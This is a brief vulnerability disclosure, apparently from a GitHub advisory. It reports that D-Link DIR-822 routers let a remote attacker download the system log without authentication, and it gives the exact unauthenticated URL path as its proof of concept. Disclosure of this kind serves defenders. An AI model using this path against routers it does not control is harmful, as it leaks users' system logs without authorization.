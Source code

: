 ### Info of vulnerability
D-Link routers have some web interfaces without authentication requirements. An attacker can remotely obtain users' system log without cookie.

Vulnerable targets include but are not limited to the latest firmware versions of DIR-822(B1- V2.00)
### Poc
`http://targetip/cgi-bin/DownloadSyslog/RouterSystem.log`
![RouterSystem.log](log.png)